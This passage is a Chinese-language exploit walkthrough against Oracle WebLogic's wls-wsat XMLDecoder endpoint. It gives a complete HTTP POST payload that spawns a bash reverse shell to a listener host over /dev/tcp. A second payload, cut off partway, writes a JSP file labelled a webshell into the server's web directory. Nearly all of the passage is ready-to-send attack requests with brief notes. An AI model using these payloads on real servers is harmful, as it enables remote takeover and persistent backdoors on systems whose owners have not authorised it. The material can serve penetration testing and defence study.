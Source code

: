 ```php
发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/接收shell的ip/21 0&gt;&amp;1</string> 
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

**发送payload响应为500，第一个打码处为目标IP，第二个打码处为开启端口监听机的IP**

**![image-20210318171635795](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210318171635795.png)**

**写入一句话木马**

```php
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: you-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter">
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>  //关键点
    </string>
    </void>
```